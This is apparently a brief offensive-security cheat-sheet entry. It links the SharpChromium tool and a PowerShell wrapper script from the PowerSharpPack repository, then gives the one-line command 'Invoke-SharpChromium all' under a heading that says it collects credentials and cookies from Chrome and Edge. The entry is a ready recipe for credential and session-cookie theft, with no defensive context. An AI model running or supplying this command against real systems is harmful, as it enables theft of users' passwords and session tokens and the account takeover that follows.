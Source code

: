 ### source
https://github.com/djhohnstein/SharpChromium  
https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-SharpChromium.ps1  

### collect credentials and cookies from chrome and edge browser
```
Invoke-SharpChromium all
```

